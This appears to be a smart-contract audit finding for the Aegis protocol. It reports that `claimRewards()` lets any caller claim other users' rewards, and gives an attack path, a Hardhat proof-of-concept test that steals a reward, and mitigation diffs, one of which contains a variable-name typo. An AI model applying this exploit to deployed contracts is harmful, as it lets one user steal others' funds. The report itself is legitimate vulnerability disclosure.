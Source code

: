 Nutty Gauze Gecko

High

# Anyone can steal others reward by calling `AegisRewards::claimRewards()`

### Summary

When calling the `claimRewards()`, the protocol doesn't check that the ids to be belong to the actual entitled claimer. This allows anyone to steal everyone's rewards

### Root Cause

In [claimRewards()](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisRewards.sol#L91), the function tries to [verify](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/lib/ClaimRewardsLib.sol#L31) the claim request input as a parameter, ensuring that the caller is `self.claimer`, that `signer == expectedSigner`, and that the lengths of ids and amount are equal. However, it does not check if the ids belong to the entitled user, which leads to stealing others' rewards directly.


### Internal Pre-conditions

1. `FUNDS_MANAGER` needs to call `AegisMinting::depositIncome()`
2. `REWARDS_MANAGER` needs to call `AegisRewards::finalizeRewards()` to finalize the corresponding id, ready to claim rewards

### External Pre-conditions

1. When calling the `claimRewards()`, we assume that when the malicious user inputs `claimRewards` parameters, the frontend requests a signature from the Aegis backend, and then the backend signs the `claimRequest` with the `trustedSigner` private key, then the frontend receives this signature and constructs the transaction

### Attack Path

1. `FUNDS_MANAGER` calls `AegisMinting::depositIncome()` in order to assign reward for Alice
2. `REWARDS_MANAGER` calls `AegisRewards::finalizeRewards()` to finalize Alice's id, ready to claim the reward
3.  Bob seizes the opportunity and calls the `claimRewards()` with the id of Alice inputted in the `ClaimRequest` struct before Alice calls it
4. The `AegisRewards` contract sends Alice's `yusd` to Bob instead of Alice

### Impact

Users lose their rewards due to the missing check during verification of claim request

### PoC

put this test in `7_aegis_rewards_spec.ts` file below `#claimReward` describe

```ts
      it('should directly steal others reward', async () => {
        const [owner, hacker] = await ethers.getSigners()
        const { aegisMintingContract, aegisMintingAddress, aegisRewardsContract, aegisRewardsAddress, assetContract, assetAddress, yusdContract } = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner)
        await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
        await aegisRewardsContract.grantRole(REWARDS_MANAGER_ROLE, owner.address)
        await aegisMintingContract.setInsuranceFundAddress(ethers.ZeroAddress)

        const snapshotId = 'test'
        const amount = ethers.parseEther('2')
        {
          await assetContract.mint(aegisMintingAddress, amount)
          const order = {
            orderType: OrderType.DEPOSIT_INCOME,
            userWallet: owner.address,
            beneficiary: ethers.ZeroAddress,
            collateralAsset: assetAddress,
            collateralAmount: amount,
            yusdAmount: amount,
            slippageAdjustedAmount: 0,
            expiry: (await time.latest()) + 10000,
            nonce: Date.now(),
            additionalData: encodeString(snapshotId),
          }
          const signature = await signOrder(order, aegisMintingAddress)

          await aegisMintingContract.depositIncome(order, signature)
          await aegisRewardsContract.finalizeRewards(ethers.encodeBytes32String(snapshotId), 0)
        }

        const claimRequest = {
          claimer: hacker.address,
          ids: [ethers.encodeBytes32String(snapshotId)],
          amounts: [amount],
        }
        const signature = await signClaimRequest(claimRequest, aegisRewardsAddress)

        await expect(aegisRewardsContract.connect(hacker).claimRewards(claimRequest, signature)).to.be.not.reverted

        await expect(yusdContract.balanceOf(hacker.address)).eventually.to.be.equal(amount)
      })
```

### Mitigation

several things must change. add `userWallet` into the Reward struct in `AegisRewards.sol`
```diff
  struct Reward {
    uint256 amount;
    uint256 expiry;
    bool finalized;
+   address userWallet;
  }
```

in the `AegisRewards::depositRewards()`
```diff
-  function depositRewards(bytes calldata requestId, uint256 amount) external {
+  function depositRewards(bytes calldata requestId, uint256 amount, address _userWallet) external {
    require(_msgSender() == aegisMinting);

    bytes32 id = _stringToBytes32(abi.decode(requestId, (string)));
    _rewards[id].amount += amount;
+   _rewards[id].userWallet = _userwallet;

    emit DepositRewards(id, amount, block.timestamp);
  }
```

Also update the `AegisMinting::depositIncome()`
```diff
  function depositIncome(
    OrderLib.Order calldata order,
    bytes calldata signature
  ) external nonReentrant onlyRole(FUNDS_MANAGER_ROLE) onlySupportedAsset(order.collateralAsset) {
    
    // ...

-    aegisRewards.depositRewards(order.additionalData, mintAmount);
+    aegisRewards.depositRewards(order.additionalData, mintAmount, order.userWallet);

    //...
  }
```

And finally, add a requirement in the `AegisRewards::claimRewards()` 
```diff
  function claimRewards(ClaimRewardsLib.ClaimRequest calldata claimRequest, bytes calldata signature) external nonReentrant {
    
    // ...

    for (uint256 i = 0; i < len; i++) {

+      require(_rewards[claimRequest.ids[i]].userWallet == claimRequest.claimer, "Wrong claimer");
      
      // ...
      
  }
```